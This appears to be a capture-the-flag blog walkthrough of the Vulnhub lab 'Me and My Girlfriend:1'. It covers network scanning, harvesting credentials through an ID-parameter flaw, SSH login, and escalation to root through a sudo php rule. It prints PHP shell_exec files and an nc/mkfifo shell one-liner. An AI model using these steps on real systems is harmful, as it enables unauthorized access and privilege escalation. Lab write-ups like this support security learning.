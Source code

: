 ```yaml
---
layout: post
title: Me and My Girlfriend:1 Walkthrough
categories: [CTF,Vulnhub]
---
```


As usual I start to scan network. I used masscan as it is faster compare to nmap. I scanned for port 80 as this is common port for CTF machines.
```
masscan -p80 192.168.1.0/24
```

![](/images/vuln_me_girlfriend/masscan.png)

I noticed that only 2 target as available. As one of that is my default gateway i decide to can 192.168.1.73. In your case... 99% IP address will be different.

I decide to to full scan againts this machine. I used nmap
```
nmap -A -sV -T4 -p- 192.168.1.73
```
I used these options as -A will give you os datection and script scanning. Always use -sV to get version detection. I know that -A -sV are same so dont judge :) Option -T4 is more aggresive scanning that normal. and -p- is shortcut to scan all ports.

![](/images/vuln_me_girlfriend/nmap_full_scan.png)

As you can see from output only port 80 and 22 are open. I decide to explore port 80. I lunched webbrowser and get some 'felling' how web sites is looking. 

![](/images/vuln_me_girlfriend/webpage_index.png)

As you can see there is some login/register options and some static pages. 
After register i was able to log in and was redirect to home page as register user. Except change profile there was nothing interesting. 

![](/images/vuln_me_girlfriend/test_profile.png)

As you can see from url there is ID=14. I decide to change to 1 and BINGO. I was able to see profiles of other users. 
You could decide to check every user and grab his/her username and password. Them you can run hydra against port 22. But as from describtion of this machine Alice was person who was hiding something. I found Alice profile and decide to use her credentials to login into machine...

![](/images/vuln_me_girlfriend/ssh_login.png)

I was in. With little poking around Alice has hidden folder with all her secrets and also first flag. 

![](/images/vuln_me_girlfriend/flag_1.png)

After start looking for priviledge escalation as start searching for some sticky bits or some clues. Them after reading few linux simple priviledge escalation tricks. I tried this command

```
sudo -l
```

This command will show commands which you can run as sudo with out root password. I command was there... php. Created some simple shell.php file below.

```php
<?php
$output = shell_exec('ls /root');
echo "$output";
?>
```

Run it as 
```bash
sudo php -f shell.php
```
and get list files from root directory. There was on only one file... flag2.txt. Decide to change my php file a  little bit to get output of this file

```php
<?php
$output = shell_exec('cat /root/flag2.txt');
echo "$output";
?>
```

and hurray got second flag...

![](/images/vuln_me_girlfriend/flag_2.png)

That's it all, right? Well i was happy i pwned this machine but them i asked my self. Can I used this priviledge escalation misconfiguration to get proper root shell? Challange accepted. I know you can use nc and -e to bind bash to you but version nc on that machine was did not have -e. After asking my search engine for help. I was able to find article where this exact nc version can be use to get access to shell. I changed my shell to this one.

```php
<?php
$a = shell_exec('mkfifo f');
$a = shell_exec('nc localhost 4444 0<f | /bin/sh -i 2>&1 | tee -f');
?>
```

Run 'screen' commnad to have to virtual sessions. Lunch nc to listen on port 4444. Move to second session and run my php file. BAAAM i have root shell :) 

![](/images/vuln_me_girlfriend/root_shell.md)

I hope you like this walkthrough
